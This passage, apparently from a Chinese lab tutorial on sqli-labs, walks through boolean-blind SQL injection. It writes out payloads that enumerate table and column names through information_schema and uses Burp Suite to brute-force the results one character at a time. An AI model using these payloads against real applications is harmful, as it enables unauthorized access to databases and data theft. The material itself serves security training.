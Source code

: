 还可以手工
类似于：

这样：

![image](https://user-images.githubusercontent.com/76896357/114857032-64a7f800-9e1a-11eb-9c08-2ab04a3e08f3.png)

先猜出database()的长度

再利用ascii码一个一个去猜，一般是利用bp爆破，也可以直接爆破

* 查库


![image](https://user-images.githubusercontent.com/76896357/114870309-96c15600-9e2a-11eb-989a-15aa884f454b.png)

设置爆破词典

![image](https://user-images.githubusercontent.com/76896357/114870597-ef90ee80-9e2a-11eb-9146-ba6e353e1be1.png)

![image](https://user-images.githubusercontent.com/76896357/114870628-fae41a00-9e2a-11eb-89fd-3420e5e4f9bf.png)

直接可以爆破出来

![image](https://user-images.githubusercontent.com/76896357/114875833-46e58d80-9e30-11eb-9175-7dff2c4758b2.png)

由此可知，库名是security

* 查表：
```
?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' --+
```
![image](https://user-images.githubusercontent.com/76896357/114887359-f6bff880-9e3a-11eb-839c-1356d722d19c.png)

介绍一种方法:
利用bp，进行一字母一个字母爆破

![image](https://user-images.githubusercontent.com/76896357/114896206-b795a580-9e42-11eb-8bb7-c932b9fcb159.png)

* 查字段
```
?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 1,1),1)='p' --+
```
自己手动改变第一个1和第3个1，让bp去爆破字母

![image](https://user-images.githubusercontent.com/76896357/114899272-6804a900-9e45-11eb-81ce-139b06a793a3.png)

剩下的同理。。。过！！！


## 9.延时注入
* 查看其闭合方式

![image](https://user-images.githubusercontent.com/76896357/114900519-8323e880-9e46-11eb-882a-660c125bea0c.png)
